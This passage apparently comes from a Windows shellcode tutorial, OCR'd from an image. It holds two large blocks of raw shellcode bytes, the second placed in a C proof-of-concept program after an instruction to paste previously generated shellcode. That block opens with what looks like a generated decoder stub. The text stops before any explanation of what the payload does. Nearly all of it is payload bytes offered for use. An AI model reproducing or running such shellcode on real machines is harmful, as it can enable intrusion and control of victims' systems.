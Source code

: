 ```
"\x85\x59\x54\xfb\xe7\xd6\xa3\x95\x61\xa9\xea\x55\x59\x6e"
"\x21\xc4\x37\xe1\x9a\xd6\x7d\x76\xf8\xc7\x01\x97\xe3\x8f"
"\x4a\x26\x4d\xdd\xea\xfb\x8b\x3a\x50\xb5\x01\xc5\x5f\xe1"
"\xa4\xb3\x52\x74\x3e\xa4\xa8\xe1\x9a\xc4\xb4\x02\x12\xe9"
"\x63\x85\x8b\x45\xd9\xf7\x7e\xd4\x60\x68\x49\xe9\x4a\x7f"
"\x22\xab\x29\x22\xf9\x24\x26\xb5\x31\xa9\x29\xa8\x7b\x3a"
"\x93\xbe\xfb\x95\x61\xa9\xe3\x81\xd8\x4a\x1c\xdd\x60\x79"
"\xfb\x3a\x93\x76\x6b\xab\x25\x22\xeb\x24\x51\x3f\xa3\x76"
"\x3d\xe1\x54\xcd\x26\x7f\xf8\xa1\xe9\xe1\xaa\xd2\x55\x0f"
"\xba\xdd\x50\x69\x07\x45\xd9\xf7\x7e\xd4\x60\x68\x93\xe4"
"\x6d\xcf\x4d\xd9\x62\xe5\x8f\x0c\x5d\x07\xa2\xe0\xb7\xf1"
"\x95\x40\x93\x7e\x57\xdc\x60\x79\xcd\x3a\x59\xb5\x7f\xdd"
"\x5f\xed\x20\x44\x04\x77\x72\x45\x5f\xe8\x20\x00\x90\x76"
"\x72\x45\x20\xf1\xea\x5c\x46\x67\x29\xd4\x39\xe8\xf2\x45"
"\x42\x76\xf0\x79\x41\xe8\xf9\xfb\xf8\x66\x32\xcc\x3b\x97"
"\xe3\x8f\x0a\xd7\x3a\x6a\x9e\x56\xf6\x3a\x50\xb3\xfe\xbf"
"\x60\xa9\xab\x45\xa2\x72\x04\xb3\x66\x56\x7e\x4d\xdf\xff"
"\x73\x95\x61\xa9\x95\x4c\x95\xab\x7d\x94\x61\xa9\x95\x48"
"\x95\xbb\x6c\x94\x61\xa9\xe3\x35\xd1\x7f\xc9\xd0\xe2\xff"
"\xac\xfb\xcd\x76\x42\x5c\x20\x13\x5b\xb1\xba\x68\x8c\x40"
"\x29\xcc\xc7\x68\x77\x12\x53\xf3\x13\xc6\xc6\x24\x55\x6d"
"\x35\xb4\x61\xe4\xce\x77\x6b\x5f\x14\xf0\x23\xc6\xd3\x04"
"\x6d\x4d\x16\xe7\x52\x9b\x85\x60\x74\x52\x73\x95\x61\xa9"
"\xab\x04\x18";
```

### POC code

Now we can copy and paste the previously generated shellcode into our POC C code:

```
#include <stdio.h>
#include <windows.h>

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xd7\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\x53\xff\xa0\x36\xf2\xd0\x80\x91\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xaf\xb7\x21"
		"\xd2\x02\x2f\x7f\x6e\xbb\x2f\xa0\x36\xf2\x91\xd1\xd0\x03"
		"\xad\xf1\x60\xba\xe1\x52\xf4\x1b\x74\xf2\x56\xcc\x98\x0b"
		"\xc3\x4b\xc1\xe8\xbd\xa0\xf0\xbe\xd9\xd8\x8d\xf0\x08\xba"
		"\xdf\x37\xdb\x19\xb2\x91\xff\xba\xe1\x40\x3d\x6f\x9e\xdc"
		"\x34\xde\xf0\xc1\x50\x9a\xf2\xe1\x37\x33\x32\x6d\xc3\x12"
		"\xae\x9e\x7e\x79\x82\xa0\xaf\xd8\xbd\x9c\x7e\xf3\x00\xbe"
		"\x1a\xd3\x77\xa0\x36\xf2\x98\x05\x51\x27\x90\xe8\x37\x22"
		"\x80\xbe\x1a\x1b\xe7\x9e\x72\x79\x90\xa0\xd8\x52\x2f\x43"
		"\x6a\xba\x2f\x49\xaf\x12\x74\x94\xbe\xba\xd1\x56\xdc\x62"
		"\x36\xe8\x07\x32\x7c\xc1\x50\x9a\xf2\xe1\x37\x33\xe8\x60"
		"\xe4\xa2\xc1\xec\x35\xbe\xf4\x88\xd4\x6a\x2e\xd5\xe0\xaa"
		"\xee\xc4\x1a\x13\xdb\xe9\x37\x22\xb6\xbe\xd0\xd8\xf3\xe8"
		"\x08\xb6\x5b\xc0\x8d\x1a\xfe\x70\x08\xb3\x5b\x84\x19\x1b"
		"\xfe\x70\x77\xaa\x91\xd8\xcf\x0a\xa5\xe1\x6e\xb3\x89\xc1"
		"\xcb\x1b\x7c\x4c\x16\xb3\x82\x7f\x71\x0b\xbe\xf9\x6c\xcc"
		"\x98\x0b\x83\xba\xb6\x5f\xc9\x0d\x8d\xbe\xd9\xde\x72\x8a"
		"\x37\xf2\xd0\xc1\x2b\x1f\x88\x86\x31\x0d\x05\xc9\x56\x92"
		"\xff\xa0\x36\xf2\xee\xc8\x1c\xc6\xf1\xa1\x36\xf2\xee\xcc"
		"\x1c\xd6\xe0\xa1\x36\xf2\x98\xb1\x58\x12\x45\xe5\xb5\xa4"
		"\xd7\x7f\x44\x1b\xce\x69\x77\x48\x20\x35\x33\x05\x00\x75"
		"\x7e\x97\xbc\xec\xfe\x7f\xdf\xc6\x44\x9d\xbd\xa0\xdc\x00"
		"\xb9\x81\x36\xbf\xb5\xf3\xe2\x32\x98\xc5\x74\x9d\xa8\x80"
		"\xe4\x20\x9a\xd2\x05\xc0\xfe\xe4\xfd\x3f\xff\xa0\x36\xf2"
		"\xd0\x80\x91";
```